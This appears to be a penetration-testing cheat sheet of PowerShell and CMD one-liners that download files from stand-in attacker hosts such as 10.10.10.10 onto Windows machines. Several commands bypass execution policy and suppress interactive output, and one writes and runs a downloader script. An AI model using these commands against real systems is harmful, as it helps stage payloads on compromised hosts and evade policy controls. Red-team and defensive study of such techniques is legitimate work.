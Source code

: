 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Download**
	
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Powershell Direct URI**
	
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Web Content Download**
	
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Powershell Wget**
	
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
	
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"	

**Web Content Download**
	
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
	
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Using file**
	
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------




USING CMD - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.143/1.txt','c:\temp\1.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'C:\temp\1.txt'"

**Web Content Download**
	
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')"

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"


